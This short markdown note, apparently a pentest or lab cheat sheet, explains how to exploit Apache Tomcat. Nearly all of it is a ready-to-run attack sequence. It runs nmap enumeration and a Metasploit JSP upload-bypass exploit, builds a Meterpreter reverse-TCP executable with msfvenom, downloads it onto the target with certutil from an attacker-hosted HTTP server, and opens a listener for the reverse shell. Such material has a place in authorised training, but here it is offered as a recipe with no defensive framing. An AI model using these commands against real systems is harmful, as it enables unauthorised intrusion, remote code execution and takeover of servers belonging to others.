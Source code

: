 # Exploiting Apache Tomcat 
- It is a open source Java web server used to host web application based on the Java software platform.
- Apache tomcat runs on TCP port 8080 by default.

#### WHY DIFFERENT FROM APACHE WEBSERVER?
Apache is used to host web apps developed in PHP and uses port 80 and 443 for the communication whereas Apache Tomcat is a web server used to host we apps developed using Java and runs on Port 8080.

#### INITIAL ENUMERATION:

```
db_nmap -sV -O -T4 
```

#### EXPLOITATION:

```
use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOST
set PAYLOAD java/jsp_shell_bind_tcp
set SHELL cmd
run
```

#### GAINING A METERPRETER SHELL:

```
#Generating Meterpreter revrse tcp payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.12.2 LPORT=1234   -f exe > meterpreter.exe
```

```
#Hosting Local HTTP server
python3 -m http.server 80
```

```
#Downloading payload to target
certutil -urlcache -f http://10.10.12.2/meterpreter.exe meterpreter.exe
```

#### SETTING UP LISTENER:

```
use multi/handler
set LHOST 10.10.12.2
set LPORT 1234
set payload windows/meterpreter/reverse_tcp
run
```
